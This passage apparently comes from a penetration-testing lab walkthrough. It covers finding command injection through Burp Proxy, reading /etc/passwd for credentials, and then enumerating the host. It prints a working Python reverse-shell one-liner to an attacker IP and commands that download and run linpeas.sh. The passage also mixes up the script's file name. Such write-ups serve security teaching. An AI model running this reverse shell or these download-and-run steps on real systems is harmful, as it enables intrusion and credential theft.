 Now sign in to the site and using **Burp Proxy** (HTTP history) navigate through the website to discover interesting request.

Then, check the possible Command Execution in the all website input field.

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

First, check the /etc/passwd file for possible clear-text credentials or hash of other priv users.

Otherwise get a Reverse shell (Python, Bash, ...)

{% code overflow="wrap" %}
```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.200.56",9009));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```
{% endcode %}



## Linux Machine Enumeration

### Linpeas enum

Once we have access to the machine, using LinPeas to get information

<pre class="language-bash"><code class="lang-bash"><strong># copy linpeas.sh and run this on att machine
</strong><strong>python3 -m http.server
</strong>
wget http://IP/linpeas.sh
chmod +x lin.sh
./lin.sh
</code></pre>
